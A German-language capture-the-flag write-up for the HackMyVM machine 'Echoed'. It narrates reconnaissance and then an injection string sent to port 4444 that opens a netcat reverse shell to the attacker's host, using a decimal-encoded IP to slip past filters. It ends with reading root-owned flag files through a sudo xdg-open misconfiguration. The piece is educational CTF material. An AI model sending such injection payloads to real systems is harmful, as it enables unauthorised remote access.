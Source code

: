 # Echoed - HackMyVM (Medium)

![Echoed.png](Echoed.png)

## Übersicht

*   **VM:** Echoed
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Echoed)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 03. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Echoed_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser "Medium"-Challenge war es, Root-Zugriff auf der Maschine "Echoed" zu erlangen. Die Enumeration deckte SSH, einen Nginx-Webserver (Port 80) und einen unbekannten Dienst auf Port 4444 auf. Die Nmap-Fingerprints für Port 4444 deuteten auf eine Befehlsschnittstelle hin. Durch Senden eines präparierten Strings (`Command:";nc [Angreifer-IP-Dezimal] 4444 -e /bin/bash;#`) an diesen Port wurde eine Reverse Shell als Benutzer `charlie` erlangt. Als `charlie` wurde eine `sudo`-Regel entdeckt, die das Ausführen von `/usr/bin/xdg-open` als jeder Benutzer (`ALL:ALL`) ohne Passwort erlaubte. Durch Ausführen von `sudo xdg-open /pfad/zur/datei` konnte der Inhalt von Dateien mit Root-Rechten (wie `/root/root.txt` und `/home/charlie/user.txt`) direkt im Terminal ausgegeben werden, wodurch beide Flags erlangt wurden.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `nikto`
*   `netcat` (nc)
*   `python3` (für pty-Shell-Stabilisierung)
*   `sudo` (auf Zielsystem)
*   `xdg-open` (als Exploit-Vektor)
*   Online IP Converter
*   Standard Linux-Befehle (`stty`, `export`, `cat`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Echoed" gliederte sich in folgende Phasen:

1.  **Reconnaissance:**
    *   IP-Findung mittels `arp-scan` (Ziel: `192.168.2.107`, Hostname `echo.hmv`).
    *   `nmap`-Scan identifizierte SSH (22/tcp), Nginx (80/tcp) und einen unbekannten Dienst auf Port 4444/tcp.
    *   Die Fingerprints für Port 4444 (`Command:Found illegal char.Command:`) deuteten auf eine Befehlsschnittstelle hin.
    *   `nikto` auf Port 80 fand keine kritischen Schwachstellen, nur fehlende Security Header.

2.  **Initial Access (als `charlie` via Port 4444 Exploit):**
    *   Die IP-Adresse des Angreifers wurde in das Dezimalformat umgewandelt (z.B. 192.168.2.121 -> 3232236153).
    *   Ein Netcat-Listener wurde auf dem Angreifer-System auf Port 4444 gestartet.
    *   Der folgende Exploit-String wurde an Port 4444 des Ziels gesendet (z.B. via `echo '...' | nc ...`): `Command:";nc [Angreifer-IP-Dezimal] 4444 -e /bin/bash;#`.
    *   Dies startete eine Reverse Shell, die sich zum Listener des Angreifers verband.
    *   Die Shell lief als Benutzer `charlie`. Die Shell wurde mit Python PTY und `stty` stabilisiert.

3.  **Privilege Escalation (zu `root`-Rechten via `sudo xdg-open`):**
    *   Als `charlie` zeigte `sudo -l`, dass `/usr/bin/xdg-open` als jeder Benutzer (`ALL:ALL`) ohne Passwort (`NOPASSWD:`) ausgeführt werden durfte.
    *   Durch Ausführen von `sudo xdg-open /home/charlie/user.txt` wurde die User-Flag (`HMVechocharlie`) direkt im Terminal ausgegeben.
    *   Durch Ausführen von `sudo xdg-open /root/root.txt` wurde die Root-Flag (`HMVcharlied`) direkt im Terminal ausgegeben.

## Wichtige Schwachstellen und Konzepte

*   **Unsicherer benutzerdefinierter Dienst (Port 4444):** Ein Dienst auf Port 4444 akzeptierte und führte beliebige Befehle aus, die in einem spezifischen Format gesendet wurden (Command Injection).
*   **Netcat Reverse Shell mit `-e` Option:** Die Verfügbarkeit der `-e` Option in `netcat` auf dem Zielsystem ermöglichte eine einfache Reverse Shell.
*   **IP-Adress-Verschleierung (Dezimalformat):** Eine Methode, um einfache Filter zu umgehen.
*   **Unsichere `sudo`-Regel (`xdg-open`):** Das Erlauben von `xdg-open` mit `NOPASSWD` und `ALL:ALL` ist eine kritische Fehlkonfiguration, die hier zum direkten Auslesen von Root-geschützten Dateien führte.

## Flags

*   **User Flag (`/home/charlie/user.txt`, gelesen via `sudo xdg-open`):** `HMVechocharlie`
*   **Root Flag (`/root/root.txt`, gelesen via `sudo xdg-open`):** `HMVcharlied`

## Tags

`HackMyVM`, `Echoed`, `Medium`, `Network Service Exploit`, `Command Injection`, `Netcat Reverse Shell`, `sudo`, `xdg-open`, `Privilege Escalation`, `Linux`
